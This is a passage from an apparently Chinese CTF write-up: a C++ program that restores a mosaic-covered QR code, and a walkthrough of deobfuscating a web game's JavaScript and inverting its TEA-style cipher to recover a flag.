vector<vector<Block> > BlockMap;

void mark(int x, int y) {
    int x1 = x, y1 = y, x2 = x1 + 55, y2 = y1 + 55;
    for (int i = x1; i < x2; i++) {
        for (int j = y1; j < y2; j++) {
            QRCode[i][j] = 0;
        }
    }
    for (int i = x1 + 11; i < x2 - 11; i++) {
        for (int j = y1 + 11; j < y2 - 11; j++) {
            QRCode[i][j] = 255;
        }
    }
    for (int i = x1 + 22; i < x2 - 22; i++) {
        for (int j = y1 + 22; j < y2 - 22; j++) {
            QRCode[i][j] = 0;
        }
    }
}

void load_data(const string &path) {
    ifstream data_in(path, ios::in);
    if (!data_in) {
        cout << "y";
    }
    string line;
    for (int i = 0; i < 57 * 11; i++) {
        getline(data_in, line);
        int pre = 0, idx = 0;
        for (int j = 0; j < line.length(); j++) {
            if (line[j] == ',') {
                QRCode[i][idx] = stoi(line.substr(pre, j - pre));
                pre = j + 1;
                idx++;
            }
        }
        QRCode[i][idx] = stoi(line.substr(pre));
    }
    data_in.close();

    mark(286, 286);
    mark(528, 528);
    mark(528, 286);
    mark(286, 528);

    for (int i = 0; i < 57 * 11; i++) {
        for (int j = 0; j < 57 * 11; j++) {
            if (!BlockMap[i / 11][j / 11].lock) {
                if (QRCode[i][j] == 0 || QRCode[i][j] == 255) {
                    BlockMap[i / 11][j / 11].val = QRCode[i][j];
                    BlockMap[i / 11][j / 11].lock = true;
                }
            }
        }
    }

    for (int i = 0; i < 20; i++) {
        for (int j = 0; j < 20; j++) {
            Mosaic cur;
            cur.lock = true;
            cur.idx_i = i;
            cur.idx_j = j;
            cur.x1 = 103 + i * 23;
            cur.y1 = 137 + j * 23;
            cur.x2 = cur.x1 + 22;
            cur.y2 = cur.y1 + 22;
            cur.val = QRCode[cur.x1][cur.y1];
            for (int k = ceil((23 * 23 * cur.val) / 255.0); (255 * k) / (23 * 23) == cur.val; k++) {
                cur.possible_white.push_back(k);
            }
            int p = cur.x1, q = cur.y1;
            while (p <= cur.x2) {
                cur.grid.push_back(move(vector<Box>()));
                while (q <= cur.y2) {
                    Box box{};
                    box.x1 = p;
                    box.y1 = q;
                    box.x2 = min(cur.x2, box.x1 + (10 - box.x1 % 11));
                    box.y2 = min(cur.y2, box.y1 + (10 - box.y1 % 11));
                    if (BlockMap[p / 11][q / 11].lock) {
                        box.val = BlockMap[p / 11][q / 11].val;
                        box.lock = true;
                    } else {
                        box.val = -1;
                        box.lock = false;
                    }
                    box.total = (box.y2 - box.y1 + 1) * (box.x2 - box.x1 + 1);
                    cur.grid.back().push_back(box);
                    q = box.y2 + 1;
                }
                if (q > cur.y2) {
                    q = cur.y1;
                }
                p = cur.grid.back().back().x2 + 1;
            }
            // clean is true if and only if boxes are true
            for (int u = 0; u < cur.grid.size(); u++) {
                for (int o = 0; o < cur.grid[0].size(); o++) {
                    cur.lock &= cur.grid[u][o].lock;
                }
            }
            MosaicMap[i][j] = cur;
        }
    }
}

void combination(vector<Box *> &source, vector<vector<int> > &ans, vector<int> &temp, int cur) {
    ans.emplace_back(temp);
    if (cur == source.size()) {
        return;
    }
    for (int i = cur; i < source.size(); i++) {
        temp.emplace_back(i);
        combination(source, ans, temp, i + 1);
        temp.pop_back();
    }
}

void bfs_v2(int start_x, int start_y) {
    vector<vector<bool> > visited(20, vector<bool>(20, false));
    deque<Mosaic *> dq;
    dq.emplace_back(&MosaicMap[start_x][start_y]);
    visited[start_x][start_y] = true;
    while (!dq.empty()) {
        auto cur = dq.front();
        if (!cur->lock) {
            // edge
            int sum = 0;
            for (int i = 0; i < cur->grid.size(); i++) {
                for (int j = 0; j < cur->grid[0].size(); j++) {
                    if (BlockMap[cur->grid[i][j].x1 / 11][cur->grid[i][j].y1 / 11].lock) {
                        cur->grid[i][j].val = BlockMap[cur->grid[i][j].x1 / 11][cur->grid[i][j].y1 / 11].val;
                        cur->grid[i][j].lock = true;
                    }
                    if (cur->grid[i][j].val == 255) {
                        sum += cur->grid[i][j].total;
                    }
                }
            }
            // judge inside
            vector<Box *> judge;
            for (int i = 0; i < cur->grid.size(); i++) {
                for (int j = 0; j < cur->grid[0].size(); j++) {
                    if (!cur->grid[i][j].lock) {
                        judge.emplace_back(&cur->grid[i][j]);
                    }
                }
            }
            vector<vector<int> > comb, possible_comb;
            vector<int> temp;
            combination(judge, comb, temp, 0);
            for (auto &it: comb) {
                int total = 0;
                for (int i: it) {
                    total += judge[i]->total;
                }
                for (int i: cur->possible_white) {
                    if (i - sum == total) {
                        possible_comb.emplace_back(it);
                    }
                }
            }
            if (!possible_comb.empty()) {
                if (possible_comb.size() > 1) {
                    unordered_map<int, int> m;
                    for (auto &i : possible_comb) {
                        for (int j : i) {
                            m[j]++;
                        }
                    }
                    for (auto &it : m) {
                        if (it.second == possible_comb.size()) {
                            judge[it.first]->val = 255;
                            judge[it.first]->lock = true;
                        }
                    }
                } else {
                    for (int i: possible_comb[0]) {
                        judge[i]->val = 255;
                        judge[i]->lock = true;
                    }
                    for (Box *b: judge) {
                        if (b->val == -1) {
                            b->val = 0;
                            b->lock = true;
                        }
                    }
                    cout << "R-Down: (" << cur->idx_i << "," << cur->idx_j << ")" << endl;
                }
            }
            cur->lock = true;
            for (int i = 0; i < cur->grid.size(); i++) {
                for (int j = 0; j < cur->grid[0].size(); j++) {
                    cur->lock &= cur->grid[i][j].lock;
                }
            }
            // back
            for (int i = 0; i < cur->grid.size(); i++) {
                for (int j = 0; j < cur->grid[0].size(); j++) {
                    if (!BlockMap[cur->grid[i][j].x1 / 11][cur->grid[i][j].y1 / 11].lock) {
                        if (cur->grid[i][j].lock) {
                            BlockMap[cur->grid[i][j].x1 / 11][cur->grid[i][j].y1 / 11].val = cur->grid[i][j].val;
                            BlockMap[cur->grid[i][j].x1 / 11][cur->grid[i][j].y1 / 11].lock = true;
                        }
                    } else if (cur->grid[i][j].lock && BlockMap[cur->grid[i][j].x1 / 11][cur->grid[i][j].y1 / 11].val != cur->grid[i][j].val) {
                        cout << "Unexpect Behavior! Grid: " << cur->grid[i][j].x1 << ", " << cur->grid[i][j].y1 << endl;
                    }
                }
            }
        }
        // next
        if (cur->idx_i + 1 < 20 && !visited[cur->idx_i + 1][cur->idx_j]) {
            visited[cur->idx_i + 1][cur->idx_j] = true;
            dq.emplace_back(&MosaicMap[cur->idx_i + 1][cur->idx_j]);
        }
        if (cur->idx_j + 1 < 20 && !visited[cur->idx_i][cur->idx_j + 1]) {
            visited[cur->idx_i][cur->idx_j + 1] = true;
            dq.emplace_back(&MosaicMap[cur->idx_i][cur->idx_j + 1]);
        }
        // pop
        dq.pop_front();
    }
}

int main() {
    QRCode.resize(57 * 11, vector<int>(57 * 11));
    MosaicMap.resize(20, vector<Mosaic>(20));
    BlockMap.resize(57, vector<Block>(57));
    load_data("img.csv");

    int cnt = 0;
    flag = false;
    while (cnt <= 30) {
        cout << "Epoch - " << cnt++ << endl;
        bfs_v2(0, 0);
    }
    int unknown_cnt = 0;
    for (int i = 0; i < 57; i++) {
        for (int j = 0; j < 57; j++) {
            if (!BlockMap[i][j].lock) {
                unknown_cnt++;
            }
        }
    }
    cout << "Unknown - " << unknown_cnt << " / 1681" << endl;
    // do clean / lazy
    for (int i = 103; i < 563; i++) {
        for (int j = 137; j < 597; j++) {
            if (BlockMap[i / 11][j / 11].lock) {
                QRCode[i][j] = BlockMap[i / 11][j / 11].val;
            } else {
                QRCode[i][j] = 128;
            }
        }
    }
    // output
    ofstream data_out("out_img.csv", ios::out | ios::trunc);
    for (int i = 0; i < QRCode.size(); i++) {
        data_out << QRCode[i][0];
        for (int j = 0; j < QRCode[0].size(); j++) {
            data_out << "," << QRCode[i][j];
        }
        data_out << endl;
    }
    return 0;
}
```

一个简易 PoC，总体思路是首先将被遮住的四个定位点确定下来，然后在整张图上寻找确定的色块，然后基于当前信息去确定更多色块。如果有多种可能不能确定，则暂时舍弃（只修改绝对确定的色块，防止蝴蝶效应）。

每一轮是一次一模一样的 BFS，因为后面的修改有可能惠及到前面，所以多跑几轮。

最后将未确定的块涂灰并输出，拿到 CSV 再用 Python 按同样的方法生成二维码：


虽然不全，但是在 30% 的容错之内了，直接拿手机扫码即可拿到 flag

# minecRaft

> kk 同学很喜欢玩 Minecraft，他最近收到了一张 MC 地图，地图里面有三盏灯，还有很多奇奇怪怪的压力板。
>
> 但他发现这些灯好像不太符合 MC 电磁学（Red stone），你能帮他把灯全部点亮吗？
>
> 注：本题解法与原版 Minecraft 游戏无关。



打开发现是个网页版的 Minecraft，蹦蹦跳跳了一会，发现游戏目标就是踩压力板凑够 32 个字符

~~于是愉快地把 32 位的 flag 踩出来了，结束～~~

打开 DevTools，观察 Sources，发现只有 `flag.js` 和 `index.html` 是与题目相关的，因此把他们 copy 到本地，起了一个静态文件服务器，然后访问：

```bash
cd minecraft
caddy file-server
# goto http://127.0.0.1/
```

随后边改文件边调试，观察 `index.html` 发现了这个函数：

```javascript
function printcinput(){
    let content=document.getElementById('spann');
    if (cinput[0]==='M') {
        if (pressplateList[64].status===false){
            pressplateList[64].TurnOn_redstone_lamp();
            pressplateList[64].status=true;
        }
    }
    if(cinput.length>=32){
        let tbool=gyflagh(cinput.join(''));
        if(tbool) {
            pressplateList[65].TurnOn_redstone_lamp();
            content.innerText='Congratulations!!!';
            return;
        }
        cinput.length=0;
    }
    content.innerText=cinput.join('');
}
```

表明将输入的字符串用 `gyflagh()` 这个函数判断了一下，如果是 `true` 则游戏结束，那就接着看看这个函数吧

首先把经过混淆的 `flag.js` 格式化了一下，然后观察从程序入口 `gyflagh()` 开始都发生了什么：

```javascript
const _0x22517d = _0x2c9e;
(function(_0x2018e5, _0xd122c5) {
    const _0x4a600d = _0x2c9e,
        _0x2e34d2 = _0x2018e5();
    while (!![]) {
        try {
            const _0x4d38c4 = -parseInt(_0x4a600d(0x1b1)) / 0x1 * (parseInt(_0x4a600d(0x1ad)) / 0x2) + -parseInt(_0x4a600d(0x1b2)) / 0x3 * (parseInt(_0x4a600d(0x1b6)) / 0x4) + -parseInt(_0x4a600d(0x1ae)) / 0x5 * (-parseInt(_0x4a600d(0x1b4)) / 0x6) + parseInt(_0x4a600d(0x1ab)) / 0x7 * (parseInt(_0x4a600d(0x1af)) / 0x8) + parseInt(_0x4a600d(0x1b5)) / 0x9 + -parseInt(_0x4a600d(0x1b3)) / 0xa + -parseInt(_0x4a600d(0x1a9)) / 0xb * (-parseInt(_0x4a600d(0x1a7)) / 0xc);
            if (_0x4d38c4 === _0xd122c5) break;
            else _0x2e34d2['push'](_0x2e34d2['shift']());
        } catch (_0x416145) {
            _0x2e34d2['push'](_0x2e34d2['shift']());
        }
    }
}(_0x381b, 0x21c08), String['prototype'][_0x22517d(0x1a8)] = function(_0x6a2659) {
    const _0x13519e = _0x22517d,
        _0x267e12 = new Array(0x2),
        _0x11a961 = new Array(0x4);
    let _0x1bf548 = '';
    console.log("this=")
    console.log(this)
    plaintext = escape(this);
    console.log("plaintext=")
    console.log(plaintext)
    for (var _0x485827 = 0x0; _0x485827 < 0x4; _0x485827++) _0x11a961[_0x485827] = Str4ToLong(_0x6a2659[_0x13519e(0x1a6)](_0x485827 * 0x4, (_0x485827 + 0x1) * 0x4));
    for (_0x485827 = 0x0; _0x485827 < plaintext[_0x13519e(0x1b8)]; _0x485827 += 0x8) {
        _0x267e12[0x0] = Str4ToLong(plaintext['slice'](_0x485827, _0x485827 + 0x4)), _0x267e12[0x1] = Str4ToLong(plaintext[_0x13519e(0x1a6)](_0x485827 + 0x4, _0x485827 + 0x8)), code(_0x267e12, _0x11a961), _0x1bf548 += LongToBase16(_0x267e12[0x0]) + LongToBase16(_0x267e12[0x1]);
    }
    return _0x1bf548;
});

function _0x2c9e(_0x49e6ff, _0x310d40) {
    const _0x381b4c = _0x381b();
    return _0x2c9e = function(_0x2c9ec6, _0x2ec3bd) {
        _0x2c9ec6 = _0x2c9ec6 - 0x1a6;
        let _0x4769df = _0x381b4c[_0x2c9ec6];
        return _0x4769df;
    }, _0x2c9e(_0x49e6ff, _0x310d40);
}

function code(_0x167a71, _0x762113) {
    let _0x412874 = _0x167a71[0x0],
        _0x3f9c14 = _0x167a71[0x1];
    const _0x540f95 = (0x52cfb2de + 0x4b67c6db),
        _0x2bdc23 = _0x540f95 * 0x20;
    let _0x4f8e47 = 0x0;
    while (_0x4f8e47 != _0x2bdc23) {
        _0x412874 += (_0x3f9c14 << 0x4 ^ _0x3f9c14 >>> 0x5) + _0x3f9c14 ^ _0x4f8e47 + _0x762113[_0x4f8e47 & 0x3], _0x4f8e47 += _0x540f95, _0x3f9c14 += (_0x412874 << 0x4 ^ _0x412874 >>> 0x5) + _0x412874 ^ _0x4f8e47 + _0x762113[_0x4f8e47 >>> 0xb & 0x3];
    }
    _0x167a71[0x0] = _0x412874, _0x167a71[0x1] = _0x3f9c14;
}

function Str4ToLong(_0x288936) {
    const _0xf57f33 = _0x22517d;
    let _0x283da9 = 0x0;
    for (let _0x1bfa1a = 0x0; _0x1bfa1a < 0x4; _0x1bfa1a++) _0x283da9 |= _0x288936[_0xf57f33(0x1ac)](_0x1bfa1a) << _0x1bfa1a * 0x8;
    return isNaN(_0x283da9) ? 0x0 : _0x283da9;
}

function LongToBase16(_0xad4470) {
    let _0x4176bf = '';
    for (let _0x3c7880 = 0x3; _0x3c7880 >= 0x0; _0x3c7880--) {
        let _0x43811c = (_0xad4470 >> 0x8 * _0x3c7880 & 0xff)['toString'](0x10);
        if (parseInt('0x' + _0x43811c) <= 0xf) _0x43811c = '0' + _0x43811c;
        _0x4176bf += _0x43811c;
    }
    return _0x4176bf;
}

function Base16ToLong(_0x203413) {
    const _0x27c0c4 = _0x22517d;
    let _0x48728d = 0x0;
    for (let _0x239fca = 0x0; _0x239fca < 0x8; _0x239fca += 0x2) {
        let _0x24e56c = parseInt('0x' + _0x203413[_0x27c0c4(0x1a6)](_0x239fca, _0x239fca + 0x2));
        _0x48728d = (_0x48728d << 0x8) + _0x24e56c;
    }
    return _0x48728d;
}

function _0x381b() {
    const _0x4af9ee = ['encrypt', '33MGcQht', '6fbde674819a59bfa12092565b4ca2a7a11dc670c678681daf4afb6704b82f0c', '14021KbbewD', 'charCodeAt', '808heYYJt', '5DlyrGX', '552oZzIQH', 'fromCharCode', '356IjESGA', '784713mdLTBv', '2529060PvKScd', '805548mjjthm', '844848vFCypf', '4bIkkcJ', '1356853149054377', 'length', 'slice', '1720848ZSQDkr'];
    _0x381b = function() {
        return _0x4af9ee;
    };
    return _0x381b();
}

function LongToStr4(_0x2f2e9e) {
    const _0x416d95 = _0x22517d,
        _0x106afc = String[_0x416d95(0x1b0)](_0x2f2e9e & 0xff, _0x2f2e9e >> 0x8 & 0xff, _0x2f2e9e >> 0x10 & 0xff, _0x2f2e9e >> 0x18 & 0xff);
    return _0x106afc;
}

function gyflagh(_0x111955) {
    const _0x50051f = _0x22517d;
    let _0x3b790d = _0x111955[_0x50051f(0x1a8)](_0x50051f(0x1b7));
    console.log(_0x3b790d)
    if (_0x3b790d === _0x50051f(0x1aa)) return !![];
    return ![];
}
```

首先注意到 `_0x381b()` 这个函数其实是个数组，`_0x2c9e()` 这个函数就是对这个数组的简单封装，而程序中大量调用了 `_0x2c9e()` 

其次注意到程序开头大量的不含参代码赋值给了一个常量，直接粘贴到 console，发现前 14 行完全没用，直接删除

打开 DevTools，将程序中每一处 `_0x2c9e()` 调用替换成对应的字符串常量，将每一行不含参的代码算出来手动优化（人脑反混淆，幸好程序不长）

然后边改代码边对着 DevTools 调试，反混淆出来的代码大概长这样：

```javascript
// 改得乱七八糟，可能不能运行
(function(_0x2018e5, _0xd122c5) {
}(_0x381b, 0x21c08), 
String['prototype']['encrypt'] = function(arg0) {
    arg0 = '1356853149054377'
    const array2 = new Array(2),
        array4 = [909456177, 825439544, 892352820, 926364468];
    let ans = '';
    plaintext = escape(this); // input string
    for (i = 0; i < 32; i += 8) {
        array2[0x0] = Str4ToLong(plaintext['slice'](i, i + 4)), 
        array2[0x1] = Str4ToLong(plaintext['slice'](i + 4, i + 8)), 
        code(array2, array4), 
        ans += LongToBase16(array2[0x0]) + LongToBase16(array2[0x1]);
    }
    // must
    // 6fbde674819a59bfa12092565b4ca2a7a11dc670c678681daf4afb6704b82f0c
    return ans;
});

function _0x2c9e(x) {
    return _0x381b()[x - 0x1a6];
}

function code(array2, array4) {
    let a = array2[0x0],
        b = array2[0x1];
    let i = 0;
    while (i != 84941944608) {
        a += (b << 0x4 ^ b >>> 0x5) + b ^ i + array4[i & 0x3], 
        i += 2654435769, 
        b += (a << 0x4 ^ a >>> 0x5) + a ^ i + array4[i >>> 0xb & 0x3];
    }
    array2[0x0] = a, array2[0x1] = b;
}

function Str4ToLong(input) {
    let ans = 0;
    for (let i = 0; i < 4; i++) {
        ans |= input['charCodeAt'](i) << i * 8;
    }
    // 0x ff ff ff ff
    return isNaN(ans) ? 0 : ans;
}

function LongToStr4(input) {
    let ans = 0;
    for (let i = 0; i < 4; i++) {
        ans |= input['charCodeAt'](i) << i * 8;
    }
    // 0x ff ff ff ff
    return isNaN(ans) ? 0 : ans;
}

function LongToBase16(input) {
    let rt = '';
    for (let i = 3; i >= 0; i--) {
        let cur = (input >> 0x8 * i & 0xff)['toString'](0x10);
        if (parseInt('0x' + cur) <= 0xf) cur = '0' + cur;
        rt += cur;
        // cur 最多 2 位
    }
    // rt 最多 8 位
    return rt;
}

function Base16ToLong(_0x203413) {
    let _0x48728d = 0;
    for (let i = 0; i < 8; i += 2) {
        let _0x24e56c = parseInt('0x' + _0x203413['slice'](i, i + 0x2));
        _0x48728d = (_0x48728d << 8) + _0x24e56c;
    }
    return _0x48728d;
}

function _0x381b() {
    return ['encrypt', '33MGcQht', '6fbde674819a59bfa12092565b4ca2a7a11dc670c678681daf4afb6704b82f0c', '14021KbbewD', 'charCodeAt', '808heYYJt', '5DlyrGX', '552oZzIQH', 'fromCharCode', '356IjESGA', '784713mdLTBv', '2529060PvKScd', '805548mjjthm', '844848vFCypf', '4bIkkcJ', '1356853149054377', 'length', 'slice', '1720848ZSQDkr'];
}

function LongToStr4(_0x2f2e9e) {
    return String['fromCharCode'](_0x2f2e9e & 0xff, _0x2f2e9e >> 0x8 & 0xff, _0x2f2e9e >> 0x10 & 0xff, _0x2f2e9e >> 0x18 & 0xff);
}

function gyflagh(input) {
    let ss = input['encrypt']('1356853149054377');
    if (ss === '6fbde674819a59bfa12092565b4ca2a7a11dc670c678681daf4afb6704b82f0c') 
    	return true;
    return false;
}
```

**观察分析得知，输入进来的字符串：**

`Input_str` 每 4 位 --> `Str4ToLong()` --> `code()` --> `LongToBase16()` --> 拼在一起得到 `6fbde674819a59bfa12092565b4ca2a7a11dc670c678681daf4afb6704b82f0c`

**那就把这个过程逆过来走一遍：**

`6fbde674819a59bfa12092565b4ca2a7a11dc670c678681daf4afb6704b82f0c` 每 8 位 --> `Base16ToLong()` --> `uncode()` --> `LongToStr4()` --> 拼在一起得到 flag

其中 `Base16ToLong()` 和 `LongToStr4()` 出题人已经贴心地帮我们实现了，剩下的就是 `uncode()`

观察 `code()` ，发现直接将执行的每一步逆序执行即可，把加号改成减号：

```javascript
function uncode(array2) {
    let array4 = [909456177, 825439544, 892352820, 926364468]
    let a = array2[0x0],
        b = array2[0x1];
    let i = 84941944608;
    while (i != 0) {
        b -= (a << 0x4 ^ a >>> 0x5) + a ^ i + array4[i >>> 0xb & 0x3],
        i -= 2654435769, 
        a -= (b << 0x4 ^ b >>> 0x5) + b ^ i + array4[i & 0x3];
    }
    array2[0x0] = a, array2[0x1] = b;
    console.log(array2)
}
```

OK，按照流程在 DevTools 里执行一遍，flag 就到手了

如果你跟我一样从来没接触过 JavaScript 的话，可能会比较难受（今天写的 JavaScript 比我这辈子都多

~~可惜最后也没看到 Congratulations!!!~~

# 没了

其他的题目压根儿看不懂，最近其实还挺忙的...溜了

